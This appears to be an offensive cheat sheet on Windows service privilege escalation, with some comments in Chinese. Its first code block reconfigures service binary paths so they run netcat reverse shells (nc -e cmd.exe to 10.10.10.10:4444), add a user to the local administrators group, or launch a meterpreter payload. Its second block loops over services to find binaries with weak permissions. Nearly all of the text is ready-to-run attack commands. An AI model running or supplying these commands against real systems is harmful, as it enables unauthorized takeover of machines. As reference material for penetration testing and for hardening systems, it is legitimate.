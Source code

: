 **sc start error, for example SSDPSRV**
`System error 1058 has occurred.
The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.`
> upnphost depends on SSDPSRV to work(for xp sp1)
> group "Authenticated Users" has *SERVICE_ALL_ACCESS/service_change_config* in a service, could modify the binary
> 

```bat
# sc start error, enable service  

# method 1
sc config SSDPSRV start= demand
sc config SSDPSRV obj= ".\LocalSystem" password= ""
# method 2, xp
sc.exe config usosvc start= auto

# modify service bin path, execute nc 
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"

# restart service
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]

# check startmode
wmic service where caption="Serviio" get name, caption, state, startmode
```

### binary weak Perm
+ check binary permisson or folder permission, if writable;
+ win service running with SYSTEM privilege, full permission to Everyone

```bat
# wmic
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"

wmci service list brief //部分server不可用

# 查找权限问题，icacls（vista及以上） 其他可用calc代替
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

# sc 
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt

sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt

FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```